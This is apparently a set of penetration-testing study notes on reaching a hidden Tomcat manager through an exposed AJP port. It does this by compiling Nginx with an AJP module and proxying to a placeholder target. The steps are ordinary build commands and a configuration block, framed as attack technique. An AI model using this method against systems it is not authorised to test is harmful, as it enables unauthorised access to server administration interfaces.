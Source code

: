 ## **Server-Side Attack Notes**

* * *

*Following are the notes for the Server Side Attack.*

# Nginx Reverse Proxy & AJP
If coming across an open AJP proxy port (8009 TCP), you can use the Nginx with ajp_module to access the **"hidden"**  Tomcat manager. The way to do this is by compiling the Nginx source code and then adding the ajp_module.

<ol>
	<li> Download the Nginx source code
	<li> Download the required module (In this case <font color="lightgreen">ajp_module</font>)
	<li> Compile Nginx source code with the <font color="lightgreen">ajp_module</font>
	<li> Create a configuration file pointing to the AJP Port
</ol>


**Downloading Nginx Source Code**
```bash
wget https://nginx.org/download/nginx-1.21.3.tar.gz
tar -xzvf nginx-1.21.3.tar.gz
```

**Compile Nginx source code with the ajp module**

```bash
git clone https://github.com/dvershinin/nginx_ajp_module.git
```
<font color=lightgreen>Clone the nginx_ajp_module to the same place as where the nginx folder is located at.</font>
```
cd nginx-1.21.3
```
<font color=lightgreen>Travel to the nginx folder and run each commands inside of it.</font>
```
sudo apt install libpcre3-dev
```
<font color=lightgreen>Neded for building.</font>
```
./configure --add-module=`pwd`/../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules
```
<font color=lightgreen>Adding the nginx_ajp_module.</font>
```
make
sudo make install
```
<font color=lightgreen>Compiling and installing.</font>
```
nginx -V
````
<font color=lightgreen>If everything was compiled correctly it should give you an output</font>

```
**Pointing to the AJP Port**

We first need to comment out the entire <font color="lightgreen">server</font> block and then append the following lines inside the <font color="lightgreen">http</font> block in <font color="lightgreen">/etc/nginx/conf/nginx.conf</font>

```php
	upstream tomcats {
		server <TARGET_SERVER>:8009;
		keepalive 10;
		}
	server {
		listen 80;
		location / {
			ajp_keep_conn on;
			ajp_pass tomcats;
		}
	}
```
To check if Nginx is working first start it then try to go to the website on localhost/127.0.0.1
```bash
sudo nginx
```
